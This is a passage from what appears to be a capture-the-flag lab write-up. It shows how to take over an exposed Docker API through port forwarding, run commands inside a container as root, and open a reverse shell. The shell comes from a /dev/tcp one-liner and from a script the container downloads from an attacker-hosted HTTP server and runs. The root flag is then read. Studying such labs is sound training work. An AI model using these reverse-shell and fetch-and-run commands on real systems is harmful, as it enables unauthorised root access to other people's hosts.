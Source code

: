 * Now, after local port forwarding, if we navigate to <http://127.0.0.1:8000/containers/json> from our machine, we can see the JSON response for Docker containers:

  ```sh
  # in attacker machine
  curl http://127.0.0.1:8000/containers/json | jq
  
  # we have a Docker image named sweettoothinc here
  # let us enumerate this further

  # interact with Docker services port-forwarded to port 8000
  docker -H 127.0.0.1:8000 container ls

  # try command execution
  docker -H 127.0.0.1:8000 container exec sweettoothinc ls
  # this works

  docker -H 127.0.0.1:8000 container exec sweettoothinc id
  # this is running as root

  # we can try getting a reverse shell now

  # setup listener on attacker machine
  nc -nvlp 4444

  # use reverse-shell one-liner
  docker -H 127.0.0.1:8000 container exec sweettoothinc "sh -i >& /dev/tcp/10.14.78.65/4444 0>&1"
  # this does not work

  # we can pass a reverse shell script and execute it instead

  # in attacker machine
  echo "sh -i >& /dev/tcp/10.14.78.65/4444 0>&1" > reverse-shell.sh

  # host it
  python3 -m http.server 5555

  # now we can make the docker container fetch this script and execute it

  docker -H 127.0.0.1:8000 container exec sweettoothinc wget http://10.14.78.65:5555/reverse-shell.sh

  docker -H 127.0.0.1:8000 container exec sweettoothinc bash reverse-shell.sh
  # this gives us a reverse-shell on our listener
  ```

  ```sh
  # on listener at port 4444
  id
  # we are root

  ls -la /root

  cat /root/root.txt
  # we get the first root flag
  ```
